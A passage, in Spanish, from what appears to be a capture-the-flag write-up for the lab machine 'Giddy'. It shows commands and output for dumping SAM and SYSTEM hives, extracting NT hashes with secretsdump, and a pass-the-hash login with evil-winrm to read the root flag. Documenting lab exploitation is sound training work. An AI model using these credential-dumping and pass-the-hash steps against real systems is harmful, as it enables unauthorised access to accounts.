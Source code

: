Reinicio el servicio y recibo en mi equipo la SAM y el SYSTEM

```null
*Evil-WinRM* PS C:\ProgramData\unifi-articulo> cmd /c sc stop UniFiarticuloservice

SERVICE_NAME: UniFiarticuloservice
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0xbb8
```

Con secretsdump, extraigo los hashes NT

```null
ecretsdump.py -sam sam -system system LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x3e47810e03c93fd0466514a8d379f9b5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:550a4c946e4e52f0bc45da440fbeca75:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Stacy:1000:aad3b435b51404eeaad3b435b51404ee:3113971d67b1180a3d58c668cf02c949:::
[*] Cleaning up... 
```

Con evil-winrm hago PassTheHash y puedo visualizar la segunda flag

```null
evil-winrm -i 10.10.10.104 -u Administrator -H 550a4c946e4e52f0bc45da440fbeca75

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
giddy\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
69933945fded319225903446dd25f3ba
```